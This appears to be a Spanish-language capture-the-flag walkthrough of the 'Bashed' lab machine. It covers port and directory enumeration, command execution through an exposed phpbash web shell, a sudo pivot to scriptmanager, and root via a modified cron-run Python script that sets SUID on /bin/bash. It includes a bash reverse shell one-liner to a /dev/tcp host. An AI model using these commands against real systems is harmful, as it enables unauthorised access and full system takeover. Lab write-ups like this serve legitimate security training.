

## Bashed

---


###### Técnicas demostradas:

- Web Enumeration
- Abusing WebShell Utility (RCE)
- Abusing Sudoers Privilege (User Pivoting)
- Detecting Cron Jobs Running on the System
- Exploiting Cron Job Through File Manipulation in Python Executed by Root (Privilege Escalation)

---

Realizamos un escaneo de puertos con la herramienta `nmap`

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.68 -oG allPorts
```


Hacemos un escaneo exhaustivo sobre el puerto encontrado para conocer el servicio y su versión.

```bash
nmap -p80 -sCV 10.10.10.68 -oN targeted
```


Con la herramienta `WhatWeb` obtenemos algo más de información

```bash
whatweb 10.10.10.68
```


Accedemos a la web para ver qué encontramos.


Realizamos una búsqueda de directorios dentro del dominio con la herramienta `gobuster`

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -x php
```


Tras probar varios, vemos que `/dev` nos permite acceder a la herramienta `phpbash` --> [GitHub - Arrexel/phpbash: A semi-interactive PHP shell compressed into a single file.](https://github.com/Arrexel/phpbash)


Accedemos a ella, y vemos que podemos ejecutar comandos como el usuario `www-data`


Moviéndonos al directorio personal de `arrexel` encontramos la primera flag


#### Escalada de privilegios

Empezamos listando los permisos a nivel de `sudoers` para el usuario `www-data`

```bash
sudo -l
```

Vemos que podemos ejecutar comandos como el usuario `scriptmanager` sin necesidad de contraseña


Podemos probar esto de la siguiente manera:

```bash
sudo -u scriptmanager whoami
```


En este punto, lanzamos una reverse shell a nuestra máquina para trabajar más cómodamente.

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.9/1234 0>%261"
```

```bash
nc -nlvp 1234
```


Y lanzamos una bash como `scriptmanager`:

```bash
sudo -u scriptmanager bash
```



Buscamos archivos cuyo propietario sea `scriptmanager`

```bash
find / -user scriptmanager 2>/dev/null | grep -v "proc"
```


Encontramos archivos dentro del directo `/script`

```bash
cd scripts/
```


Revisando su contenido y permisos, parece que el usuario root está ejecutando una tarea programada:


Con el siguiente script podemos visualizar en tiempo real si se están ejecutando tareas y el usuario que las lanza:


```sh
#!/bin/bash

old_process="$(ps -eo user,command)"

while true; do
	new_process="$(ps -eo user,command)"
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "kworker|procmon"
	old_process=$new_process
done
```

```bash
chmod +x procmon.sh
```


Una vez confirmado que se ejecuta como root, modificamos el archivo `test.py` para asignar el bit `SUID` a `/bin/bash`:

```python
import os

os.system("chmod u+s /bin/bash")
```


Y ejecutamos bash con privilegios elevados:

```bash
bash -p
```

Encontramos la flag de root


